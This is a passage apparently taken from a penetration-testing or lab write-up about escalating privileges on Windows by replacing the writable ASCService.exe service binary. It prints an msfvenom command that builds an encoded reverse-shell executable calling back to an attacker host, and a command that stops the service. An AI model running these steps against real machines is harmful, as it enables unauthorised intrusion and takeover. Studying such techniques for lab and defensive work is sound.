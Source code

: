 ![](attachments/20230913100109.png)

As we can see from the image above we have a modifiable path and write permissions to that directory. This means we can replace the ASCService.exe file there with our maliciously crafted payload, and restart the service which will then run our infected program.

Next we craft our payload from our attack machine using msfvenom and name it the same name as the AdvanceSystemCareService executable which is "ASCService.exe":
```shell
msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```

![](attachments/20230913100821.png)

Now we stop the AdvancedSytemCareService9 from running so that we can replace the legitimate service with our malicious executable. Command to stop service:

```powershell
Stop-Service -Name "AdvacnedSystemCareService9"
```
